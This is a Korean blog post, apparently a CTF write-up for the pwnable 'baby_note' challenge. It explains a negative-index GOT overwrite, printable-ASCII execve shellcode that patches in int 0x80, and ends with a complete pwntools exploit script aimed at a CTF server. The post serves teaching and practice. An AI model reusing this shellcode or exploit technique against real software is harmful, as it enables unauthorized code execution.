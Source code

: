 ```yaml
---
layout: post
title:  "baby_note ([pwnable.tw]-death note)"
date:   2020-09-23
categories: "2020"
---
```


최근에 매주 월요일마다 pwnable 문제를 풀려고 하고 있는데, 친구가 이 문제를 풀어보라고 해서 풀어봤다. 처음에 뭔가 잘 보여서 쉽게 끝나나 했는데 아니었다ㅠㅠ.


내가 문제 풀려고 ida부터 키니까 `checksec`부터 하라고 훈수를 뒀다.
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
PIE가 꺼져있고, Full RELRO가 아니다. GOT를 덮어씌울 수 있을 것 같다.

GOT를 어떻게 덮어씌울 것인지 생각해보라 그랬다. 그래서 우리가 입력 넣어주는 부분을 찾아보니 `add_note`함수가 있다.

### add_note 함수 :

![](https://images.velog.io/images/bgeunjo/post/07569ece-3e53-4c90-8bee-e6fdc2d29e17/KakaoTalk_20200908_054454698.png)

`int`형에 Index를 입력받아서 음수의 인덱스도 참조가 가능하다. 그리고 내가 입력한 문자열(Name)을 `strdup()`을 사용해 heap에 복사해주고, 그 주소를 `note[v1]`에 써준다.

🤔 `note`변수는 전역 변수라서 `bss`영역에 있다. `bss`영역보다 좀 더 작은 주소에 `got`영역이 있다.

![](https://images.velog.io/images/bgeunjo/post/ec37a06d-25f0-49c5-8eae-0f05cd9d3efd/KakaoTalk_20200908_055258561.png)

`note`변수의 주소가 `0x0804a060`이다.
![](https://images.velog.io/images/bgeunjo/post/4c9000cc-e43f-41dc-9780-1a3f54388c6d/KakaoTalk_20200908_055306475.png)

`got`영역의 주소가 `0x0804a0~`이다.

❗ Index는  (`note` - 원하는 함수(`puts`)의 `got` ) / 4로 해주면 될 것 같다. 4를 나눠주는 이유는 `v1`이 `int`라서 index * 4 만큼 주소가 커지거나 작아지기 때문이다
- 근데 / 2 해줬음.. 그래야 맞게 들어가던데 왜 그런지는 잘 모르겠다.

그럼 이제 `puts()'s got`에는 `strdup()`에 의해 내가 쓴 문자열이 복사된 곳의 주소(`heap`)가 쓰이게 된다. 그럼 내가 쓴 문자열(명령어)이 실행이 되는 것이다.

그래서 쉘코드를 쓰려고 하는데 넣을 수 있는 문자에 제한이 걸려있다.

![](https://images.velog.io/images/bgeunjo/post/e62e817c-262b-4628-976d-901206ef1598/KakaoTalk_20200908_055727963.png)

아스키코드 범위 `0x20` ~ `0x7e`의 값만 쓸 수 있다. 그래서 Ascii shellcode를 검색해서 쓰려고 하는데 잘 안된다.. 여기서 시간을 되게 많이 썼다.

🤔 우리가 평소에 쓰는 쉘코드(`shellcraft.sh()`)는 `execve(path='/bin///sh', argv=['sh'], envp=0)` 이다. `argv`는 `NULL`이 되어도 된다. 

❗ 이제 해야할 일이 정해졌다! 
- `syscall(int 80)`을 이용해 `execve`를 호출할 것이기 때문에 `syscall` 호출 규약에 맞게 인자를 세팅해준다.
- `syscall_table`을 참고하면 `execve`는 `eax=11`일 때 실행 된다.

### 쉘코드 작성

쉘코드를 작성해보자.

```
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx      
    push 0x31
    pop eax
    xor al,0x31
    dec eax
    xor ax,0x3f50
    xor ax,0x4062
    push eax
    pop edi                               
    push 0x3b    
    pop eax
    xor al,0x30
    push edx
    pop esi
    push ecx
    pop edx
    push edx
    pop edx
    push edx
    pop edx
    push edx
    xor [esi+0x30],di
```

처음부터 ㅂㅂㅈ ㅂㅂㅈ~ 🚀

```
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
```
문자열 `/bin///sh`를 스택에 푸쉬해준다. `/bin/sh`가 아니라 `/bin///sh`를 쓴 이유가 뭘까?
- `/bin/sh`를 쓰게 되면 `push 0x68732f`를 하게 된다. 즉 opcode에 `0x00`이 포함되게 되어, 허용되는 아스키코드 범위를 벗어난다.
- `/bin//sh`를 해주게 되면 `push 0x68732f2f`를 하게 되는데, 끝에 `NULL`이 없어 내가 원치 않는 문자열까지 뒤에 연결되게 된다.

```
    push esp
    pop ebx
```
`ESP`는 현재 `/bin///sh`를 가리키고 있다. 그 문자열의 주소를 `EBX`에 넣어준다. `syscall`의 매개변수 세팅을 위해서다.


```
    push 0x31
    pop eax
    xor al,0x31
    dec eax
    xor ax,0x3f50
    xor ax,0x4062
    push eax
    pop edi   
```

`EAX`를 0으로 세팅한 후, 1을 감소시켜서 `0xffffffff`로 만든다. 가장 만드는데 골치 아픈 `0x80cd`(int 0x80=`syscall`) opcode를 편하게 만들기 위해 1을 다 on 시켜준 것이다. 그리고 적당한 값을 xor해서 `0x80cd`를 만들어준다. `xor eax, ~`는 허용되는 아스키코드 범위를 넘어가는 opcode를 만들기 때문에 `xor ax, ~`로 해준다. 
그렇게 만든 값을 `edi`에 넣어준다. `eax`는 이 후에도 써야 하는데, `edi`는 쓰이는 곳이 없기 때문이다.

```
    push 0x3b    
    pop eax
    xor al,0x30
````

`execve()`를 호출하기 위해서는 `syscall`할 때 `eax=11`이어야 하기 때문에, 세팅해준다.

```
    push edx
    pop esi
    push ecx
    pop edx
```

`puts()`를 실행시키는 시점에 `edx`는 내가 쓴 문자열의 시작주소(`heap`)를 가리키고 있다.
근데 `syscall` 매개변수 세팅해줄 때 `edx=0`을 맞춰줘야 하기 때문에 `esi`에 넣어놓고, 이미 0이었던 `ecx`를 이용해 `edx`를 0으로 만든다.(이거 까먹어서 욕먹음 ㅠ)

``` 
    push edx
    pop edx
    push edx
    pop edx
    push edx
    xor [esi+0x30],di
```
`xor [esi+0x30],di`에서 `0x30`은 내가 입력한 명령어의 총 길이다. 문자열(명령어)이 끝나는 곳에 `0x80CD`를 넣어준다.
마지막에 `push edx pop edx` 들은 길이를 맞춰주려고 아무거나 넣은거다. 걍 아스키코드 범위에 들어가는 거 아무거나 써도 된다. 길이를 안 맞춰주니까 내가 쓴 문자열 + a 에 이미 쓰여진 값이 있었는데, 그 값에 영향을 받아 원하는 값이 안 들어갔다. 

![](https://images.velog.io/images/bgeunjo/post/a9b97bed-28fe-4794-a520-658cf7665e5f/baby_note3.PNG)

`xor [esi+0x30],di`을 실행하는 시점의 레지스터 상태이다. `syscall`의 매개변수로 쓰이는 `ecx`,`edx`는 0으로 세팅되어 있고 `ebx`는 `/bin///sh`를 주소를 담고 있다.
`syscall_table`에서 `execve()`에 해당하는 11(`0xb`)가 `eax`에 세팅되어 있다. `edi` 중에서 `di`부분만 보면 `0x80cd(int 0x80)`로 세팅되어 있다.

![](https://images.velog.io/images/bgeunjo/post/110ae669-66df-48db-8e8c-69c6956f833b/baby_note2.PNG)

마지막 명령어를 실행하고 나면 위치에 딱 맞게 `int 0x80`이 들어간 것을 확인할 수 있다. 이제 저 명령어(`syscall`)를 실행해주면 쉘이 따진다!

### Exploit code

``` python
from pwn import *
import sys

if len(sys.argv) != 2:
    log.info("try options -l for local, -r for remote")
    exit()
if sys.argv[1].strip()=='-l':
    p=process('./baby_note')
elif sys.argv[1].strip()=='-r':
    p=remote("srv.cykor.kr",31009)

#context.log_level='debug'
e=ELF('./baby_note')

bss=e.bss()
puts_got=e.got['puts']
offset=(puts_got-bss)/2

shellcode="""
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx      
    push 0x31
    pop eax
    xor al,0x31
    dec eax
    xor ax,0x3f50
    xor ax,0x4062
    push eax
    pop edi                               
    push 0x3b    
    pop eax
    xor al,0x30
    push edx
    pop esi
    push ecx
    pop edx
    push edx
    pop edx
    push edx
    pop edx
    push edx
    xor [esi+0x30],di
"""
shellcode=asm(shellcode)
log.info("shellcode Length: "+str(hex(len(shellcode))))
log.info(shellcode)

#gdb.attach(p)
p.recvuntil("Your choice :")
p.sendline("1")
p.recvuntil("Index :")
p.sendline(str(offset))
p.recvuntil("Name :")
#raw_input()
p.sendline(shellcode)
#raw_input()
p.interactive()
```

![](https://images.velog.io/images/bgeunjo/post/39c971db-d3e5-4a04-abe2-84b06ae0490d/shell.PNG)